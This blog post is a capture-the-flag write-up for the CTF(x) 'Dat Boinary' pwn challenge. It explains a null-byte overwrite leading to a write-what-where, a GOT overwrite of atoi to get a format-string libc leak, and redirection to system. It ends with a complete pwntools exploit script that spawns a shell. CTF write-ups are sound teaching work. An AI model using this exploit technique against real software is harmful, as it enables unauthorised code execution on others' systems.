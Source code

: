 ```yaml
---
layout: post
title:  "CTF(x) - Binary 250 - Dat Boinary"
date:   2016-08-29 12:00:00 -0800
categories: ctf pwn
---
```


For this challenge we're provided the binary and a _libc.so.6_ binary. Just by being provided this second binary we are hinted that we will need some fuctionality from it: Rop or ret2libc probably.

{% highlight bash %}
[grazfather ~/code/CTFs/ctfx]$ file dat-boinary
dat-boinary: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, not stripped
{% endhighlight %}

I've recently bought the personal edition of [Binary Ninja](http://binary.ninja), and so will be using it for most of my static analysis.

Popping it into binja we (happily) see that it's a rather small binary. `main` is rather simple, with a menu system and a large loop, and what looks like no exit.

![main]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-main.png)

First a buffer of 0x80 bytes is allocated and its pointer stored at $ebp - 0x14 (_buf_ptr_). We're prompted for an ID, which is at most 9 bytes (including the null) and stored locally, at $ebp - 0x20 (_ID_).

Next the menu is printed:

{% highlight bash %}
What would you like to do?
1) upd4te th3 1d of y0ur meme.
2) Updat3 the d4nkn3ss of your m3m3.
3) upd4te the c0ntent of your maymay.
4) pR1nT th3 c0nT3nT of ur memey.
5) s00p3r s3cr3t meme 0pt10n.
{% endhighlight %}

Reversing item by item we see the following:

1. `strlen(ID)` is called and its lenght is provided to `fread` (instead of `fgets` like the first time).
2. `read_number` is called, and its return value is stored at ebp - 0x10 (_dankness_), it's compared to 0x80, the size of the allocated buffer, and if greater or equal, or signed, the nothing happens. If the value is in range, however, the 'dankness' is copied to ebp - 0x18.
3. The value at ebp - 0x18 (_size_) is checked to be valid. If in range, `fgets` is called to write to _buf_ptr_.
4. Simply calls `printf("%s", buf_ptr);`.
5. `secret_meme(ID)` is called. This function is not too short, but the only interesting part is right at the start:
![secret_meme]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-secret_meme.png)
It writes 0x69696969 to `(buf + 8)`. Since this function is passed the address of the ID in `main`'s stack frame (0x20), this will write to main's local at ebp - 0x18, which is _size_, which used to determine how much to write into the heap buf.

With these functions figured out, this is what main's stack frame looked like:
![main's locals]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-stack_frame.png)

While using `secret_meme` might look like a good way to get a huge write into the heap buffer, that is not actually where the vulnerability lies. The size is checked that it's in range, anyway. Instead, this function helps us because it can wipe out _ID_'s null byte: Provided an eight-byte ID the null byte will lie over the first byte of _size_. By overwriting this we can change our ID, and the `strlen` call will not return 8 (or less) but instead `8 + sizeof(size) + sizefof(buf_ptr)`, and will keep going until it finds a null byte. What is important, though, is that this will allow us to overwrite _buf_ptr_, and then we can use menu option 3 to write _at_ this selected address.

To write to this address, though, I needed to pass the size check, but `secret_meme` had placed an invalid value, and anyway I had overwritten it again on my way to overwriting _buf_size_. I could have used the second menu item to reset the size, but I instead just made sure to write a valid size when I was overwriting these bytes.

With a write-what-where primitive I can pretty much do what I want, but I don't know the address of the stack, so I will have to attack the _global offset table_. Here I made it more difficult than I needed, but bear with me.

I know that I needed to leak the address of something in libc, so that I could calculated the offset from there to `system`, and then patch that address into some import's entry in the GOT. My idea was to replace `atoi@got`, which is used in the menu, with the address of `printf@plt`. This would allow me to provide format strings to the menu system to leak addresses on the stack. An added benefit is that I could still use the menu, because `printf` returns the number of bytes printed, so to select item 3, for example, it'd just have to pass a string that prints three bytes.

One interesting thing I noticed about Binary Ninja is that they seem to name some of their symbols incorrectly. When finding the address of `atoi@got`, I got myself pretty confused. What binja labels as `atoi` is _actually_ `atoi@plt`. What they label as `atoi@plt` is `atoi@got.plt`.

![leaking libc]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-atoi_plt_binja.png)
According to Binary Ninja
![leaking libc]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-atoi_plt_gdb.png)
According to GDB.

Inspecting the stack I could see that `__libc_start_main+243` is on the stack, and would be the 23rd element printed. This means that provided the string "%23$X" would print out that address.

![leaking libc]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-leak_libc.png)

Now reading this address and using binja to find the address of `__libc_start_main` and `system` I could calculate the offset. I could use this offset and the leaked run-time address to find the address of `system` in memory.

With the address of `system` on hand, I had to write to the `atoi@got` entry again, replacing `printf@plt` with `system`. This was done simply by passing a string of length three bytes (including the newline) to `printf` to select menu item 3.

Finally, with the pointer in place, I simply needed to enter shell command I wanted into the menu system.

Now while this worked fine, I noticed later that I had made it more complicated than I needed to: Menu item 4 would print out the value at `buf_addr`, and when I filled it with the address of `atoi@got`, that value woudl be the address of `atoi` (since it had already been called and so already resolved). This would get me my libc address leak without needing a format string.

Either way, I had a working exploit:

{% highlight bash %}
   $ id
   uid=1000(dat_boinary) gid=1000(dat_boinary) groups=1000(dat_boinary)
   $ ls
   dat_boinary
   flag.txt
   $ cat flag.txt
   ctf(0n1y_th3_fr35h35t_m3m3s)
{% endhighlight %}

{% highlight python %}
#!/usr/bin/env python

import sys

from pwn import *

system_addr = 0x3e3e0
libc_start_main_addr = 0x19970
libc_leak_addr = libc_start_main_addr + 243
system_offset = system_addr - libc_leak_addr

atoi_got = 0x8049128
printf_plt = 0x8048410

def exploit(r):
    # Set the id to something 8 chars long
    r.recvuntil("please give your meme an id")
    r.send("A"*8)
    r.recvuntil("==>")

    # Run secret to overwrite the nullbyte
    r.sendline("5")
    r.recvuntil("\nsecret")
    r.recvuntil("==>")

    # Update the id, but make sure that bytes 8-11 (dankness) are undex 0x80
    r.sendline("1")
    r.recvuntil("3nt3r ur m3m3 id")
    r.send("A"*8 + "\x20\x00\x00\x00"  + p32(atoi_got))
    r.send("Z"*5) # fread will read until it gets 21 bytes
    r.sendline("")
    r.recvuntil("==>")

    # Now we can write anything to that address
    # -- Write printf
    r.sendline("3")
    r.sendline(p32(printf_plt))
    r.recvuntil("==>")

    # Now in the menu we can enter format strings
    r.sendline("%23$X") # The address of __libc_csu_init
    r.recvuntil("0pt10n.\n==> ")
    r.recvuntil("0pt10n.\n==> ")
    leak = r.recv(8)
    leak = int(leak, 16)
    r.recvuntil("==>")
    log.info("Got leak 0x{:X}".format(leak))
    system_addr = leak + system_offset

    log.info("System shoud be at 0x{:X}".format(system_addr))

    # Update meme (atoi_got) to point to system
    r.sendline("33")
    r.sendline(p32(system_addr))
    r.recvuntil("==>")

    # Now call system with "/bin/sh"
    r.sendline("/bin/sh")
    r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./dat-boinary'], env={"LD_PRELOAD":"./libc.so.6"})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

flag: ctf(0n1y_th3_fr35h35t_m3m3s)
